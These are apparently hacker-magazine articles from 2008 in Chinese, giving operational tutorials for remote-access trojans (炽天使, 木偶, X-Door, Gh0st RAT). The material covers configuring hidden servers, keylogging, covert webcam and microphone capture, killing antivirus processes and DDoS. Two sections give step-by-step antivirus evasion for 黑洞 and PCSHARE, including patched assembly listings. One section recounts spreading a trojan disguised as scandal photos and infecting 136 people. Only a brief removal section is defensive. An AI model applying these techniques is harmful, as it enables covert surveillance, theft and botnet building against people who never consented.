既然我们提到了木马插件，那就来看看这些插件的功能如何。我们以“键盘记录器”插件为例，首先在插件列表中选择“键盘记录器”插件，接着点击鼠标右键，选择“执行插件”命令，然后在弹出的功能窗口进行操作就可以了。点击“启动键盘记录”按钮，就可以记录远程系统中的键盘操作信息。过一段时间后点击“获取键盘记录”按钮，就可以获取木马程序截获的信息结果，如图6。

不过经过测试后发现，木马虽然可以截获键盘记录，但是只能截获英文信息，不能截获中文信息内容。另外选择“设置为开机启动”，这样服务端在随机启动后就可以开始操作了。至于木马其它自带的插件，大家就自己慢慢感受吧。

除了通过插件管理窗口进行启动外，有的控制命令还可以直接通过工具栏进行操作，比如点击工具栏中的“屏幕监控”，这样就可以及时监控远程系统的操作情况了。程序会弹出一个该功能的设置窗口，首先选择控制屏幕的颜色色度，包括65536色、256色、16色三种颜色色度。接着选择“允许控制”和“自动保存画面”选项，并且设置自动保存画面的路径。最后点击“开始”按钮就可以进行屏幕监视操作，如图7。获取的远程屏幕的画质非常清楚，并且传输速度也非常流畅，如图8。通过屏幕左上角的控制命令，可以进一步的对监控屏幕进行相应的操作控制。


现在再点击工具栏中的“视频音频”按钮，如果远程系统连接有摄像头或话筒的话，那么就可以通过该功能来获取视频音频信息。用户只需要直接工具栏中的“开始”按钮即可，木马默认是同时同步截获视频和音频信息，当然也可以单独进行视频音频的监控。尤其是音频监控的操作，我们还可以通过“允许语音交流”选项来和远程用户进行交流。如果选择了“存为AVI”选项，就可以将监控的信息保存为AVI文件，这样就可以通过播放器进行进一步的查看操作。


#### 3. 其它控制功能

我们再来看看木马程序常见的其它管理命令，比如“进程管理”、“服务管理”、“注册表管理”等。首先单击工具栏中的“进程管理”，它可以对远程系统中当前的进程进行管理。从管理窗口可以看到每个进程的进程ID、映像名称、用户名等信息，从中我们也可以看到服务端程序利用的Svchost进程，比如ID为836的那个进程，其用户名不是SYSTEM而是LOCAL SERVICE，也就是本地服务，如图9。

我们通过“结束”命令可以关闭某些不喜欢的程序进程。


接着点击“服务管理”命令，通过它可以对系统中的服务进行管理，比如启动服务、停止服务、删除服务、更改启动类型。炽天使远控的服务管理功能和系统中的服务管理差不多，就不过多的进行相关介绍了。最后来看看“注册表”管理命令，在弹出的功能窗口中就可以进行远程注册表的操作。操作方式和本地系统的注册表管理器一样，大家可以对需要的内容进行修改、删除、重命名等，另外也可以对注册表内容进行新建的操作。

### 三、总结

到此为止，炽天使远控的主要功能就为大家介绍完了。炽天使不但使用了流行的木马技术，并且采用了sys驱动方式的内核驱动级服务端，另外由于采用了国际领先的恢复系统SSTD技术，可以彻底摧毁病毒软件的主动防御功能。因此无论从各个方面上来讲都超越了传统概念的木马程序，因此非常值得各位木马爱好者来感受一番。

（本文所涉及到的炽天使远控已收录到光盘中）

## ‘木偶’也来远程控制

木偶是我们小时候经常玩的一种玩具，我们通过木偶身上的线进行相应的操作，可以让木偶表演出各种复杂的动作。其实木偶和马有很多相似之处，只不过木偶是我们通过实际的线进行控制，而木马则是通过看不见的线来进行控制。今天我就要为大家介绍一款名为“木偶”的木马程序，看看它是如何被我们进行控制操作的。

### 一、木马程序配置

首先我们对木偶木马的服务端程序和客户端程序进行设置。点击“设置”按钮，用户可以根据需要选择“声音提示”、“弹出窗口”等选项，如图1。接着点击“配置服务端”按钮，在这儿我们只需要设置服务端的反弹连接地址和反弹连接端口，老版本的木偶木马使用80端口进行连接，而目前的版本则默认改为60000端口进行数据传输，当然你也可以自定义使用其它的端口。为了更好的对服务端进行隐藏，木马程序还提供了“注入设置”选项，其中包括注入到Explorer、Svchost以及随机主动注入等三种方式，如图2。


如果想让服务端程序自动启动的话，就需要选中其中的“自启动”选项，木马同样提供了三种启动方式，包括ActiveX、Stesth IC、Infect等。对于ActiveX这种启动方式大家较为熟悉，该方法可以在一般权限并且不提权的情况下，尽量保证低权限主机的正常上线。但是对于另外两种启动方式，本人就有些不法清楚了，各位读者自己可以进行测试一下。另外为了保证服务端程序能够更好的伪装，还可以进行伪造版本、修改时间、文件隐藏、清除还原点等设置。配置完成后点击“生成”按钮，就可以创建我们所需要的服务端程序了。服务端程序的体积只有还不到22k，非常适合大家用于网页木马的制作。

### 二、远程控制操作

点击客户端程序中的“开始”按钮，进行本地端口的监听操作，然后等待服务端程序的自动连接。当服务端程序自动连接成功后，客户端程序会弹出一个提示窗口，同时会有类似灰鸽子一样的语音提示。从上上线列表中我们可以看到远程计算机的IP地址、系统类型、计算机名称等信息，如图3。


从上上线列表中选择上线的远程计算机，接着点击鼠标右键，选择相应的控制命令，就可以进行服务端程序的一些操作了。首先点击“系统信息”命令，可以查看远程计算机的更多信息，包括系统目录、CPU类型、内存大小等，这对于我们以后的操作会有很好的帮助。

通过“窗口管理”命令可以对远程系统中当前存在的窗口信息进行管理，如果远程系统没有打开任何窗口，就会显示出一个Program Manager提示，也就是系统的资源管理器窗口，如图4。该命令不光可以查看到应用程序的窗口，还可以查看到某些没有窗口进程的窗口句柄。点击鼠标右键，还可以进行刷新显示和关闭窗口等，这样我们就能对系统窗口进行有效的管理了。


说到系统管理功能，最常见的可能就属进程管理了。通过“进程管理”命令可以查看远程系统中当前的进行状况，通过“刷新显示”命令可以对进程信息进行及时更新，如图5。从图中我们可以清楚的看到被木偶木马利用的Svchost进程，通过“终止进程”命令就可以结束服务端程序的进程，当然也可以终止其它不需要的进程，比如杀毒软件、防火墙的进程等。

我们可以通过“文件管理”命令对远程磁盘中的文件进行操作，其中包括打开、新建、重命名、删除等。我们首先从分区列表中选择需要查看的分区或者直接在“路径”中输入需要查看的路径，然后再通过点击鼠标右键，选择其中的命令就可以对文件进行相应的操作管理了，如图6。不过遗憾的是，最新版本的木偶木马依然不支持多线程操作，因此每次只能对一个文件进行传输操作，不过好在木马支持文件的断点续传操作。

我们可以通过“服务管理”命令对系统服务项进行管理，点击鼠标右键，选择“刷新显示”命令就可以显示出远程系统中的服务项，为了让系统服务显示彻底，我们最好多点击该命令。


令几次。点击鼠标右键，通过其中的命令还可以进行系统服务项的启动和停止操作。不过我不清楚的是，为什么有的系统服务要用彩色进行特别标注，难道这些都是隐藏的系统服务吗？

如果要问 Windows 系统中什么最重要，我想注册表一定是首当其冲的，因为它保存了系统硬件和软件的设置信息。点击“注册表编辑器”，该编辑器完全模拟了 Windows 系统中自带的注册表编辑器，通过它就可以对远程注册表进行编辑操作，包括对注册表键值的修改、新建、删除等，如图 7。以前我比较轻视注册表编辑器的功能，现在我发现通过修改注册表内容可以轻松的突破系统防火墙的拦截。当然你也可以进行更多的其它修改，比如更改远程桌面使用的端口等，就好象我们在系统中留了一个后门一样。


新版本的“木偶”木马新增了远程抓屏功能，通过这个功能可以对远程桌面进行查看。不过目前该远程抓屏功能还比较简单，只能一次抓取一张远程屏幕的内容信息，而不能连续的对屏幕进行抓取操作，并且抓取的远程屏幕的效果也不怎么理想。对于已经抓取的屏幕信息，可以将其保存到本地系统中。看来木偶木马以后还需要在桌面管理方面多下功夫。另外通过木马的远程视频功能，我们可以对远程系统的摄像头进行查看，操作方法和远程抓屏一样简单。

最后再来看看“DOS 模拟”命令，通过该命令可以模拟出一个命令提示符窗口，在该命令窗口中，我们可以执行大量的本地系统命令以及大量的网络终端命令，当然也可以在此执行其它的后门程序等。我们只需要在“输入 DOS 命令”选项中输入相应的命令，然后点击发送按钮就可以在远程系统中执行并得到反馈信息了，如图 8。


“木偶命令”就是对远程计算机进行常规控制的命令，包括 WEB 下载、Ping 测试、断开连接、卸载木偶等功能。通过 WEB 下载命令可以让服务端程序下载指定链接的文件并运行，当然该功能在对服务端程序集群操作时更为有效。“命令广播”就是一个集群控制平台，用户可以一次性地对多台远程计算机进行同一项的操作。该功能除了包括常见的服务端断开、服务端卸载等命令外，还包括一个 DDoS 攻击命令，这样用户就可以通过控制的远程计算机同时对某个 IP 地址进行拒绝服务攻击了。

### 三、服务端清除

首先点击安全工具 WSysCheck 的“端口状态”，通过它来查找服务端程序使用的 Svchost 进程的 PID 值，因为系统中很多时候 Svchost 进程。在这里我们确定 PID 值为 1784，接着在“进程管理”中找到该 PID 值的 Svchost 进程，选中它后点击鼠标右键，选择“结束这个进程”命令来结束它，如图 9。

在“活动文件”里找到启动项 host32.com，点击鼠标右键，


# 散马记

## 2008 合订本上卷

选择“定位注册表”，然后在出现的注册表编辑器中点击鼠标右键，选择“删除项”，清除服务端程序的启动信息内容，最后选择程序中的“文件管理”，对服务端程序文件进行最后的清除。在系统的 web 目录找到文件后点击鼠标右键，选择“直接删除文件”命令就可以完成对木马服务端的清除操作了。重新启动系统后再进行检查一下，以确认木马程序被彻底清除干净了。

### 四、小结

通过上面的简单介绍我们可以看出，木偶木马虽然集合了远程控制所需的主要功能，但是每项功能都非常迷你。这样点到为止的设置既可以让用户有效进行远程管理，同时还保证了服务端程序的小体积，这样也让受够了灰鸽子庞大“身躯”的用户有了另一种选择。如果你认为该木马功能有限的话，还可以通过它植入其它功能强大的木马程序。另外木偶木马采用了多种技术进行隐藏，而且利用了系统进程进行数据传输，这样即使是专业人士也需要很大的耐心才能将其清除。

（本文所涉及到的木偶以及 WSysCheck 已收录到光盘中）


## 通通通透免杀黑洞 1.96 x140cc

黑洞是一个很稳定的远程控制软件，所以倍受菜鸟的青睐，但是对于黑洞 1.96DLL 国庆版使用资源编辑工具找不到里面的 DLL 和 SYS 资源，很难制作免杀，我们这次就借助一个工具来对其制作免杀，可以将里面的资源导出来，具体的步骤请跟我一起来操作吧，体验一下自己如何亲手制作免杀的黑洞 1.96DLL 版。

我们来分析一下，黑洞 1.96 的服务端共由四部分组成，两个 SYS 文件，一个 DLL 文件，一个 EXE 文件，其中的两个 SYS 文件是相同的，我们借助一个工具来提取就简单多了，避免了手工提取的麻烦。工具一共有三个，其中的 EXE 文件 Ssy 提取器界面如图 1 所示，另外两个工具的界面相同，只是标题不一样而已。

从文件标题上的说明我们就能看出来它们各自是做什么用的了，一个是用来分离 DLL，另一个用来分离 EXE 文件中的 SYS，还有一个则是用来分离 DLL 文件中的 SYS。SYS 是过卡巴 6.0 和 7.0 的，两个 SYS 文件是一样的，一个夹在 EXE 文件中，一个夹在 DLL 文件中，所以我们制作其中任一个的免杀就 OK 了。

好了，运行黑洞 1.96，生成 DLL 插入型服务端程序，对于生成的这个不加壳的文件，使用上面的三个工具分别导出 EXE 中的 SYS 和 DLL，再导出 DLL 中的 SYS，我生成的服务端程序 dd.exe 导出了三个文件，如图 2。

我们这次主要来免杀过卡巴，只要把文件免杀了就可以了，因为其本身是过主动防御的，DLL 和 SYS 文件采取特征定位的方式，还得请出 MYCLL 特征码定位器，不到两分钟，很快就定位出了 SYS 的特征码，如下：

```
特征码 物理地址/物理长度 如下：
[特征] 000005A2_00000004
特征码分布示意图：
[--------------------------------------------------]
[--------------------------------------------------]
[--------------------------------------------------]
[--------------------------------------------------]
[--------------------------------------------------]
[--------------------------------------------------]
[--------------------------------------------------]
[--------------------------------------------------]
[--------------------------------------------------]
```

转换成内存地址为 000105A2 附近，使用 C32ASM 打开，跳到 000105A2，发现下面有个 POP ECX 指令，换成 PUSH ECX 指令测试一下。

经过测试发现这个修改是可以的，过了主动防御，功能也正常，说明 SYS 生效。

下面来修改 DLL 文件，采用加壳改壳的方式，在此之前需要把 SYS 导回去，如图 3。SS.SYS 是我修改完的 SYS，选择好路径，直接点合并就把 SYS 合并回去了，其实也就是替换原来的 SYS。

好了，下面对合并完 SYS 的 DLL 文件进行免杀卡巴，使用北斗 3.6 压缩一下，再使用 OD 打开，如图 4。


把使用方框圈起来的地方改成如图那样，这个是卡巴的一个弱点，我已经多次利用了，只要把壳的头部改一改就过了，保存后不被查杀了。到此，我们把 EXE 和刚才制作完免杀的 SYS 合并，两个 SYS 一样，所以免杀一次就可以了。最后再把 EXE 和刚才免杀完的 DLL 合并，注意顺序啊。现在这个 DD.EXE 还是被查杀的，再做下它的免杀，和刚才免杀 DLL 的方法一样，先使用北斗 3.6 进行压缩，注意压缩的时候在配置选项上只选择压缩。然后和修改 DLL 一样，保存后免杀成功，现在一个完全免杀卡巴的黑洞 1.96DLL 插入版就诞生了。你还可以借助 16 进制编辑工具，在我们免杀之前修改安装路径和文件名，做到真正的 DIY。运行的时候卡巴没有任何提示，说明 SYS 文件无损，360 安全卫士提示有 DLL 文件嵌入，说明 DLL 释放成功，这个解决办法是使用 16 进制编辑文件改掉安装文件名，黑洞默认的安装文件名早被杀毒软件盯上了。再修改一下安装路径，最后黑洞成功上线。免杀到此结束，大家赶快自己动手去 DIY 一个吧。（本文所涉及到的黑洞国庆专版 DLL 提取器、MYCLL、黑洞 1.96 和北斗 3.6 已收录到光盘中）

10 4


## 纯手工免杀 PCSHARE

兽兽

现在的木马实在太多了，但是基本上也都各大杀毒软件盯紧了，因此再好的木马在杀毒软件面前也都会死跷跷。这次我就给大家带来了一篇纯手工免杀 PCSHARE 过瑞星和卡巴的文章，即使没什么基础的朋友看了本文后也应该会制作免杀了。文章主要是介绍大家在手工免杀方面应该注意的一些细节性问题，对于制作免杀未成功的朋友可能就是因为没有考虑到微小的细节问题吧！

PCSHARE 的免杀是比较麻烦的，主要是文件太多了，一个失败了可能就会影响到整个木马的不能运行，因此最好一个个的进行测试。我们先免杀 PcInit.exe 让其过瑞星，首先定位特征码，我使用的是 MYCCL，使用方法如图 1。


定位到 000009C4_00000002 为特征码，我们需要在 OD 中进行修改，所以还需要使用偏移量转换器这个小工具来转换一下得到它在内存中的地址，如图 2。


使用 OD 载入程序，按 Ctrl+G 跳到 004015C4，我们得到这样一段代码：004015C4    ? 8403  test  byte ptr [ebx], al。大家注意，这里实际上是不能修改的，这并不是它真正执行的代码，那怎么办呢？很简单，在这句代码的周围找到如下代码：

```
004015C3    /0F84 09000000 je 004015C2
004015C9    |95            xchg eax, ebp
004015CA    |92            xchg eax, edx
004015CB    |5B            pop ebp
```

这里才是我们应该修改的地方，由于 004015C4 在 004015C3 与 004015C9 之间，所以我们只要修改这之间的代码就可以了。004015C3 的指令是 je 004015CC，就是跳到 004015CC 地址去，我们到代码的最下面找一段零区域，先把把这个指令改为 JMP（我们的零区域地址），然后在零区域处跳转到 004015CC，这样就算修改了特征码了，够简单吧！我找的零区域是 004022CD，修改后的代码就是：

```
004015C1    33C0          xor eax, eax
004015C3    E9 050D0000   jmp 004022CD
004015C8    90            nop
004015C9    95            xchg eax, ebp
//...
004022CD    0F84 F9F2FFFF  je 004015CC
004022D3    C3            retn
```

按照同样的原理，我们来免杀 PcMain.dll 这个文件。这个 DLL 文件定位还是一样，并且使用偏移量转换器也能确定加载基址后的地址，使用 OD 载入的时候会自动提示要 load 的，我们得到特征码：0000AADD 00000002，加载后地址为 1000B0DD，修改也非常简单，都是同样的跳转，改成如下这样：

```
1000B0DA    33C0          xor eax, eax
1000B0DC    E9 E1400000   jmp 1000F1C2
1000B0E1    90            nop
1000B0E2    95            xchg eax, ebp
//...
1000F1C2    0F84 1DBFFFFF  je 1000B0E5
```

由于瑞星是不查这个驱动文件的，所以就不用多管了，现在我们来制作卡巴的免杀。大家注意了，这里一定要仔细啊，还是先定位 PcInit.exe 得到：

```
[特征] 000009C:00000002 转换后 0040159C
[特征] 00000A2E:00000004 转换后 0040162E
```

先看第一个代码是这样的：

```
0040159C    FF75 FC       push dword ptr [ebp-4]               ; hObject
0040159F    FF15 4804000  call dword ptr [<&KERNEL32.CloseHandle>] ; CloseHandle
```

对于汇编有些基础的朋友应该知道这里是先把 CloseHandle 这个函数所需要的参数 hObject 压栈，然后 CALL CloseHandle 函数的地址执行这个函数。因此为了保险起见我们还是把整个函数的代码都 NOP 移到后面的零区域去执行。另外需要提醒大家的是，后面的零区域最好选在较前面的地方，我开始制作的时候放在最后，结果老是失败，可能后面的区域在程序运行时值会改变吧，代码改成这样：

```
0040159C    FF15 5004000  call dword ptr [<&KERNEL32.SetFileTime>] ; SetFileTime
0040159C    E9 FE0C0000   jmp 0040229F
004016A1    90            nop
//...
0040229F    FF75 FC       push dword ptr [ebp-4]                ; /hObject
004022A2    FF15 4804000  call dword ptr [<&KERNEL32.CloseHandle>] ; \CloseHandle
004022A8    E9 74F4FFFF   jmp 004015A1
```

对于 004022A2 处的代码可能有朋友会问是怎么得到的，由于 OD 能自动识别函数，所以就使用函数名代替了地址，但是我们只需要双击一下原来没改之前的那个对应代码找到函数的地址：call dword ptr [403048]，填上去后同样的原因被 OD 自动转成地址。最后一个跳转的是跳到原来程序执行后的地方，因为程序是自上而下执行的，我们跳了后当然要跳回去啊，这才符合常理嘛。这样后面代码我直接给出修改好的代码：

```
0040162B    . FF55 FC        call    dword ptr [ebp-4]
0040162E    . E9 830C0000    jmp     004022B6
00401633    90             nop
//
004022B6     FF75 F8        push    dword ptr [ebp-8]
004022B9    FF15 34304000  call    dword ptr [<&KERNEL32.FreeLibrary>; kernel32.FreeLibrary
004022BF    ^ E9 6FF3FFFF    jmp     00401633
```

其中 004022B9 处的是 call dword ptr [403034]。我们再来对 pcmain.dll 制作免杀，这里直接给出代码：

```
[特征] 0000E418_00000002  转换后1000F018
1000F014   . 53             push    ebx
1000F015   E9 BB010000      jmp     1000F1D5
1000F01A   . 83FE 01        cmp     esi, 1
//
1000F1D5   E8 06ABFFFF      call    10009CE0
1000F1DA  ^ E9 3BFEFFFF      jmp     1000F01A
```

现在来免杀最主要的 PcHide.sys 这个驱动文件，对于这个文件是不太好修改的，不能使用 OD，所以我们需要使用静态反汇编 C32asm 这个工具，由于是静态的，直接定位：0000980 00000002，使用偏移量转换器转换地址后为 00010980。

这里也有个地方值得注意 00010980：33C0 XOR EAX, EAX，对应的机器码为 33C0，只有 4 个字节，而我们的 JMP XXX 的指令是 10 个字节，因此不够用。但是如果特征码处的字节数不足，就不能直接修改特征码了，要把它上面的代码一同 NOP 掉，然后在后面的零区域把它们都补回来，如果不这样的话，字节不够会自动修改下面的代码继而改变了整个程序的代码，那时估计整个木马都完蛋了，很多人可能都是这样失败的，所以在此处我要提醒一下各位！

```
00010977: FF70 04        PUSH DWORD PTR DS:[EAX+4]
0001097A: E9 29050000    JMP 00010EA8
0001097F: 90            NOP
00010980: 90            NOP
00010981: 90            NOP
//
00010EA6: 0000          ADD DS:[EAX],AL
00010EA8: FF15 20030100  CALL DS:[10320]
00010EAE: 33C0          XOR EAX,EAX
00010EB0: E9 CCFAFFFF    JMP 00010981
00010EB5: 90            NOP
```

经过了以上的介绍，我们在手工修改 pcshare 特征码的各个方面大家都清楚了吧，现在瑞星的表和内存都过了，对于卡巴来讲过了表面也就是过了内存，无论查什么目录都查杀不了了，如图 3，而且我们直接生成的就是无壳的东西，以后也方便自己修改。我测试的时候发现 PCSHARE 加壳好象都不是很好用，很多壳加了后都不能运行，可能是因为这个程序是由汇编和 C 编写的没有灰鸽子加壳那么随意吧！


图 3

（本文所涉及到的 PCSHARE、MYCLL、OllyICE、OC 地址偏移器和 C32asm 已收录到光盘中）

## “艳照门”助我肉鸡成群

txcbg

前天在黑客 X 档案的官方论坛看到一个朋友巧用“艳照门”抓鸡的帖子（什么，你不知道什么是“艳照门”？！快去到 baidu 或 google 搜索一下就知道了），当时觉得思路不错，今天有空照着那位朋友的思路测试了一下，不到一小时就抓到了 136 只肉鸡，测试成功。

先说一下抓鸡的思路，找几张跟“艳照门”有关的图片，和你的木马一起做成自解压文件，把自解压文件放到网上，注册一个百度帐号，到你的百度空间发表有指向你的自解压文件链接的日志，然后到“艳照门”帖吧发帖，说你的空间有最新照片，因为浏览那个帖吧的人非常多，很快就会有肉鸡上线的。

### 一、制作自解压文件

从网上随便找几张跟“艳照门”有关的图片放到一个文件夹里，然后再配置好你的木马，最好是免杀的（关于木马的配置与免杀不是本文的重点，如果你还不会可以看一下 X 档案以前的相关文章），我用的木马是最近刚出的 pcshare 黑客 X 档案友情专版，生成的服务端可以直接过最新的瑞星（08213），包括主动防御。比如我把图片和生成的 pcshare 服务端都放到了一个名为“艳照门最新照片”的文件夹下，按 CTRL+A 全选文件夹下的所有文件，点右键，添加到“艳照门最新照片.rar”，然后双击刚生成的艳照门最新照片.rar，点击“制作自解压文件”，如图 1。


图 1

在新出来的窗口中点“高级自解压选项”，就会弹出如图 2 所示的窗口，解压路径填写“艳照门最新照片”，并选择“在当前文件夹中创建”，“解压后运行”填写 ps.exe（我配置的木马的名字），“解压前运行”填写 1.jpg（文件夹中一张图片的名字），然后切换到“模式”选项，安静模式选择“全部隐藏”，覆盖方式选择“覆盖所有文件”，如图 3。再点两次确定按钮就会生成一个名为“艳照门最新照片.exe”的自解压文件，但仔细一看，它的文件图标跟压缩文件的有点不一样，如图 4。

下面我来给它改一下文件的图标，先用万能图标截取器把普通压缩文件的图标提取出来，然后使用 Restorator 2006 打开艳照门最新照片.exe，在“图标”中找到原来的图标文件，右键->导入->导入到，然后选择你刚才截取的压缩文件的图标，再点“保存到磁盘”就行了，如图 5。

这样就生成了一个含有木马的自解压文件，它的文件图标跟普通的压缩文件一模一样，只要双击它就会运行我们的木马，解压出来的图片则起到迷惑人的目的。因为我的木马是运行后自动删除的，等他双击完文件再打开刚解压出来的“艳照门最新照片”文件夹时，看到的只是图片，但我们的肉鸡却已经上线了，如图 6。

由于 XP 系统在默认情况下是不显示文件的扩展名的，整个过程几乎就跟点击普通压缩文件一样，所以安全意识不怎么强的人中木马的可能性还是很大的。

### 二、传播木马

带木马的自解压文件做好了，下面就是怎样让别人运行你的自解压文件了。我先到常来网申请了一个免费空间（为了安全，建议你注册时选的 ID 别跟你平时用的相同或相近，下面在百度申请帐号也是一样），把“艳照门最新照片.exe”传上去，把它的 URL 地址记下来（下面要用）。再到百度去新申请一个用户，开通百度空间，在里面写一篇日志，我写的题目是“艳照门最新照片”，内容是“艳照门最新照片，点此下载”，“点此下载”四个字通过超级链接指向刚才记下来的我的自解压文件的 URL。接下来去百度贴吧，直接搜索“艳照门”，就来到了艳照门贴吧，在里面发一篇帖子，题目依然写“艳照门最新照片”，内容写“艳照门最新照片”，后面再跟上你的百度空间里那篇日志的地址，如图 7。

马上刷新，不到 10 秒钟，已经有 18 个人浏览了，如图 8。再看看 pcshare，已经来了 7 只肉鸡，如图 9。但再刷新艳照门贴吧时，发现刚发的帖子没了，看来是被吧主删除了。咱再重新发，就这样我发帖，吧主删帖，我再发帖……


过了不到一小时，那篇日志的访问量已经达到了 2576，上线的肉鸡也已经达到了 136 只，看着上线肉鸡数快速上涨的感觉真爽啊……

看到抓鸡成功后，我就把肉鸡集体放生了（做只肉鸡不容易啊）。当你看到文章的时候，也许“艳照门”的热度已经过去，再用“艳照门”抓鸡已经没有那么快了，但你可以稍微变通一下，看什么最热门，你就去用什么抓鸡，相信肉鸡成群一定不只是梦想。

（本文所涉及到的 pcshare 黑客 X 档案友情专版和 Restorator 2006 已收录到光盘中）

## 三元驱动级木马 X-Door

痛并快乐着

常言说得好，一年之计在于春。新春当然要有新的计划和目标，对于我们这些木马爱好者来说，玩新的木马就是我们当前最大的目标。哈哈，今天我就为大家推荐一款全新的国产木马，它的名称就是 X-Door。它不但继承了大量优秀木马的特点，还有很多自身的特色功能，下面我们就来详细的了解 X-Door。

### 一、配置操作

首先我们还是来配置一个 X-Door 的服务端程序，运行客户端后点击工具栏中的“生成客户端”按钮，X-Door 可以生成 DLL 和 EXE 两种形式的服务端，DLL 服务端必须通过调用 rundll32.Exe，手动执行安装命令才可以实现安装，因此相对来说较为麻烦。而 EXE 服务端则需要在生成时，设定好要安装的方式，然后就可以进行直接安装操作。首先在“固定的控制端地址和端口”选项中，设置服务端程序连接的地址和端口，程序支持 IP 地址和域名两种连接方式。接着在“客户端其他设置”的“客户端标识”里面，设置用于区别服务端连接使用的标识。而“文件时间”选项可以直接设定服务端文件的生成时间和最后访问时间。另外再选中“关闭输出安装记录到文件”、“使用控制端当前连接密码为客户端添加密码验证”、“安装前，尝试在 Ring3 恢复系统的原始 SSDT 表”等选项，尤其是选中了最后一个选项后，在安装服务端程序会尝试恢复系统的原始的 SSDT 表，这样可以使得安装得以通过一些主动防御系统的拦截。因为软件是破解版，这个功能需要灰色按钮激活器激活选项，如图 1。


图 1

前面已经提到 X-Door 支持两种形式的服务端，其实 EXE 服务端最终也是通过释放 DLL 服务端，代替手工命令来执行安装命令从而实现安装。生成的 EXE 文件名可根据需要指定，如果希望生成的 EXE 自动拷贝到系统目录运行并安装，生成时直接填入所希望生成的文件名并直接运行即可。比如生成的文件名为 abc.Exe，安装时将在系统目录生成 abc.dll 后执行安装。再在“安装方式”里面选择相应的方式，每一种的安装方式都会有默认的安装参数。其中包括安装新服务、替换原服务、感染 PE 文件、创建远程线程等四种方式，尤其是“感染 PE 文件”更是其它木马没有使用过的。另外“执行后自动替换客户端文件时间为宿主进程文件时间”选项，可以在释放出 DLL 文件以后，根据宿主进程的文件的时间，修改 DLL 文件为宿主进程的文件一样的时间。配置完成后点击“确定”按钮，就可以创建所需要的服务端文件。

### 二、控制操作

为了能更好的进行控制操作，现在点击工具栏中的“参数设置”，对 X-Door 进行全局设置。其中包括监听端口、连接个数、监控色深、刷新频率等。设置完成后就可以运行服务端程序，当服务端连接成功后即可开始进行测试操作。

首先通过双击上线主机的信息，就可以打开“命令与征服”命令。新版本的该功能不再和 NC 进行兼容，因此只提供了基本的 CMD 操作以及补充的一些有用的命令，但是相对于其它木马的类似功能还是很强大的，如图 2。比如通过 skill [pname|pid] 可以结束进程，该命令支持 PID 和进程名的操作。另外该功能每次的会话的数据都进行了变形加密，而且每次会话的变形加密密钥采用随机协商处理，这样使得每次的数据内容都不尽相同。

接着点击工具栏中的“桌面监控”命令，通过它可以进行


图 2

远程桌面的查看和控制。其中标题栏分别显示了当前的屏幕监控，所使用的设置以及所计算的压缩比和Fps等结果。当鼠标移动到窗口上方的时候，隐藏的控制工具栏就会立即显示出来。比如点击“控制键盘”命令，就可以直接通过鼠标键盘进行远程桌面的控制。“保存图片”可以将捕捉的图片，保存到本地的磁盘里面，如图3。虽然可以通过调节监控屏幕的色深等，但是发现捕捉的屏幕虽然较为清晰，但是屏幕的颜色还是非常的不理想。


现在再点击工具栏中的“文件管理”，该功能模仿了Windows系统的资源管理器，通过下方的状态列表可以显示当前操作情况和结果。通过不同的图标表示了不同的驱动器属性，包括总共空间大小和剩余空间大小等基本信息。通过鼠标右键中的命令，可以提供文件的删除、执行、下载、上传，以及文件和文件夹的压缩等功能。如果这次文件传输没有完成的话，当下次文件管理连接上后，会发现未完成的文件下载进度，如图4。X-Door将根据系统参数的设置，决定是否提醒用户恢复下载的进度。

除了对远程桌面进行监控以外，还可以通过“视频监视”和“音频监听”命令，进行其他信息的监控设置。比如通过“视频监视”可以打开安装到远程系统中的摄像头、电视卡、视频采集卡等视频源。木马可以根据实际状况，来调整并显示实际帧率，当然也可手动调整。捕捉的数据既可以保存为AVI文件，也可以保存为BMP图片文件。并且该功能支持Microsoft MPEG4和Divx MPEG4编码，可以大大的降低数据的传输量，从而降低网络带宽的需求而提高效率。如果远程系统没有安装编码器，可以到X-Door木马的官方网址（www.xdoors.Net）下载mpcg4.exe程序后，利用“文件管理”上传到远程主机并直接执行，而且整个安装过程是隐藏不见的。另外通过“音频监听”可以采集到，远程系统的麦克风所采集的音频信息。而该功能使用了G729音频压缩，这样是为了降低带宽的需求，如图5。

现在我们再来看看“注册表管理”、“进程管理”和“服务管理”这三个基本的控制功能。“注册表管理”命令模拟了本地系统的注册表管理器，通过它可以对远程注册表的


图4


图5


图6


图7

# 牧马记

内容进行修改，当然也可以创建新的项目内容和键值。“进程管理”则是模仿了 Windows 任务管理器，通过它实现对远程系统进程的管理，如图6。点击操作窗口上方的项目信息，可以对不同的项目进行排序处理。该功能除了可以对指定的进程结束以外，还可以让指定的进程进行挂起，不过挂起进程功能要慎用，因为可能导致系统或用户进程不稳定。“服务管理”也是模仿 Windows 系统服务管理器，这样就可以实现对系统中的服务进行管理。通过鼠标双击其中的某个服务，就可以获取该服务更为详细的信息，而通过鼠标右键可以进行服务的启动、停止等控制，当然还可以配置其启动的类型，如图7。

除了上面的这些功能以外，木马的右键中的集成功能也非常丰富，其中包括视频浏览墙、屏幕浏览墙、分布式扫描、分布式破解等。“视频浏览墙”和“屏幕浏览墙”这两项功能非常有意思，提供了对多个服务端在一个窗口里同时进行监视的方法。看上去就像一面巨大的电视墙一样，可以通过双击选择其中的单独的一个主机进行独立的监控。除此以外，木马还带有大量的功能插件，包括键盘记录、远程代理、分布式攻击等，通过它们可以进一步的拓展木马的控制功能。

### 三、小结

到此为止，X-Door 已经介绍完成了。从上面的介绍我们可以看出，X-Door 皮肤酷似早期的 Poshare，属于全新的驱动级别的木马程序。X-Door 不但可以穿透防火墙，并且属于无端口、无启动项、无进程的三无木马，并且可以轻松的绕过部分主动防御的杀毒软件。

（本文所涉及到的 X-DOOR 已收录到光盘中）

## 国产木马新选择——Ghost RAT

天涯衰草

自从灰鸽子木马停止开发以后，国产木马好象就变成了群龙无首，因此一下子显得毫无生气了。最近无意间发现了一款由红狼安全小组发布的一款全新的远程控制软件——Ghost RAT。经过测试以后发现 Gh0st RAT 非常不错，其中最大的亮点是可以突破主动防御，于是推荐给各位朋友们来一起尝尝鲜。

### 一、配置服务端

首先运行最新版本的 Gh0st RAT 客户端来配置一个服务端程序进行使用，Gh0st RAT 的界面模仿了著名的国外木马Poison Ivy。Gh0st RAT 目前支持 HTTP 和 DNS 两种上线方式，我由于是在虚拟机里进行测试，因此就选择了 DNS 这种上线方式。选择客户端程序中的“Settings”标签，在“主机/域名”和“端口”中分别设置连接的 IP 地址和端口。这时在“上线字串”会出现一段 24 位的字符串，将其复制到剪贴板中，如图 1。

接着点击客户端中的“Build”标签，在“域名上线字串”中粘贴这段字符串即可，任何一个包含上线字串的页面都可以作为上线页面用。最后点击“生成服务端”按钮即可完成，如图 2。

